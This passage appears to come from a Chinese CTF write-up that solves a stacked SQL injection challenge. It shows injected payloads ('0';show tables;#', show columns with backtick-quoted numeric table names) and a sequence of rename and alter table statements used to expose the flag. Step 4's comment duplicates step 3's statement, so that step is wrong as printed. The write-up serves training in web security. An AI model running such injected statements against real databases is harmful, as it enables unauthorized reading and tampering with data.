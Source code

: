 ```
0';show tables;#
```

![](https://zhuang-yongyi.gitee.io/yoyo/nep/BUU/13.png)

```
0';show columns from words;
```

![](https://zhuang-yongyi.gitee.io/yoyo/nep/BUU/12.png)

```
不能使用 0';show columns from 1919810931114514;#

表名为数字时，要用反引号包起来查询

应为0';show columns from `1919810931114514`;#
```

![](https://zhuang-yongyi.gitee.io/yoyo/nep/BUU/14.png)

可以看到这里有两张表，words表有两个字段，分别为id和data；1919810931114514表有一个字段，为flag。

因为输入1时，返回的页面如下：

![](https://zhuang-yongyi.gitee.io/yoyo/nep/BUU/15.png)

1表示的是id=1,输出的是id=1时的字段内容。

所以输入id=1时，服务器执行的语句为select * from words where id=1或select data from words where id=1

担我们现在需要输出的flag的内容，所以需要执行以下骚操作

```
1.将words表改名为word1或其它任意名字  //rename table words to word1

2.1919810931114514改名为words  //rename table 1919810931114514 to words

3.将新的words表插入一列，列名为id  //alter table words add id int unsigned not Null auto_increment primary key;

4.将flag列改名为data   //alter table words add id int unsigned not Null auto_increment primary key;
```

